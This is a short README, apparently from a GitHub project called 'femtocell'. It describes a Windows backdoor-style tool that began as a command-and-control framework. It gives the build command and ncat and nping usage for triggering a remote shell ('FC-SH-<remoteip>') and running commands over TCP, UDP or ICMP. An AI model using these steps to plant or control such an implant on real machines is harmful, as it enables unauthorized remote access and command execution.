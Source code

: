 # femtocell
This was supposed to be a "Modular C2 Framework"
Now it's not.
It's way cooler now though. Trust me.

## Building
`x86_64-w64-mingw32-gcc femtocell.c process.c -lws2_32 -o femtocell.exe`


## Usage
### TCP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`

`> FC-SH-<remoteip>`

`> FC-CM-<command>`

### UDP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`

`> FC-SH-<remoteip>`

`> FC-CM-<command>`

### ICMP
`sudo nping 192.168.183.152 --icmp --data-string "FC-SH-192.168.10.162 " -c 1 --icmp-code 1`

**include a character after the IP address**
